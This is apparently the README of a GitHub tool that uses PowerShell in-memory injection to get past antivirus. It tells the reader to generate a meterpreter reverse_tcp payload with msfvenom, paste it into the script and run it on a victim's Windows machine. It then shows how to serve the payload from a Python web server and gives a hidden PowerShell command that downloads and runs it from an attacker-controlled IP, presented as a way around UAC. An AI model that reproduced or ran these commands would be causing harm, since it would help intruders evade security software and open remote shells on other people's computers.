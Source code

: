 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15


<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC:</h3>

First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.

```
python3 -m http.server 80
```

Then you can use this command within the Windows target system:

```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/script.ps1'); Invoke-Function"
```

